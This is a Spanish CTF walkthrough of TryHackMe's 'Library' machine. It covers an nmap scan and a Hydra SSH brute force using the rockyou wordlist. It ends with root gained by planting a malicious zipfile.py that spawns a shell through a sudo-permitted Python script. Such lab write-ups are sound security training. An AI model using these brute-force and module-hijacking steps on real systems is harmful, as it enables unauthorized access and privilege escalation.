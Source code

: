 ```yaml
---
title : "Library - Write Up - Español"
date : 2021-07-04T14:07:30+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "Maquina de nivel fácil en TryHackMe."
tags : ["hydra","python","PATH","sudo","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/bsidesgtlibrary)  | Fácil  |  [stuxnet](https://tryhackme.com/p/stuxnet)  |

## Reconocimiento

Usando `nmap` obtenemos los puertos abiertos de la máquina

```bash
╰─ lanfran@parrot ❯ map 10.10.70.175                                                                                               ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 14:10 CEST
Nmap scan report for 10.10.70.175
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.75 seconds
```

Así que vayamos a la página web del puerto 80.

Es una página bastante simple, pero si somos un poco inteligentes, ¡podemos conseguir 4 usuarios!
- www-data
- root
- meliodas
- anonymous

Además, si vamos al archivo `robots.txt`, obtenemos una pista "rockyou"

```bash
╰─ lanfran@parrot ❯ curl 10.10.70.175/robots.txt                                                                                   ─╯
User-agent: rockyou 
Disallow: /%  
```

¿Quizás si intentamos forzar bruta con `hydra` el servicios de SSH con un usuario y la wordlist rockyou?

¡Vamos a intentarlo!

## Acceso inicial - Usuario

```bash
╰─ lanfran@parrot ❯ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.70.175                                        ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-22 21:56:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.70.175:22/
^V[STATUS] 97.00 tries/min, 97 tries in 00:01h, 14344303 to do in 2464:40h, 16 active
[22][ssh] host: 10.10.70.175   login: meliodas   password: [REDACTADO]
```

¡SÍ! ¡Funcionó!

¡Así que usemos la contraseña de meliodas e inicie sesión con SSH!

```bash
╰─ lanfran@parrot ❯ ssh meliodas@10.10.70.175                                                                                      ─╯
[...]
meliodas@ubuntu:~$ ls -la
total 40
drwxr-xr-x 4 meliodas meliodas 4096 Aug 24  2019 .
drwxr-xr-x 3 root     root     4096 Aug 23  2019 ..
-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
-rw------- 1 root     root       44 Aug 23  2019 .bash_history
-rw-r--r-- 1 meliodas meliodas  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 meliodas meliodas 3771 Aug 23  2019 .bashrc
drwx------ 2 meliodas meliodas 4096 Aug 23  2019 .cache
drwxrwxr-x 2 meliodas meliodas 4096 Aug 23  2019 .nano
-rw-r--r-- 1 meliodas meliodas  655 Aug 23  2019 .profile
-rw-r--r-- 1 meliodas meliodas    0 Aug 23  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
meliodas@ubuntu:~$ cat user.txt 
6[REDACTADO]c
```
Obtenemos la bandera del usuario

## Root

Primero ejecutemos `sudo -l` para ver si el usuario está dentro de los sudoers.

```bash
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
¡Sí, podemos ejecutar un archivo con `/usr/bin/python*` y con sudo!

Al leer el archivo `bak.py` podemos ver que está usando una biblioteca llamada "zipfile" y el `$PATH` está configurado para verificar primero el directorio `home`.
Entonces podemos aprovechar esto y crear una "lib" maliciosa en `home`.

```bash
meliodas@ubuntu:~$ cat bak.py 
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
meliodas@ubuntu:~$ echo $PATH
/home/meliodas/bin:/home/meliodas/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
meliodas@ubuntu:~$ echo 'import os; os.system("/bin/sh")' > zipfile.py
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt	
e[REDACTADO]7
```
¡Y hemos finalizado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!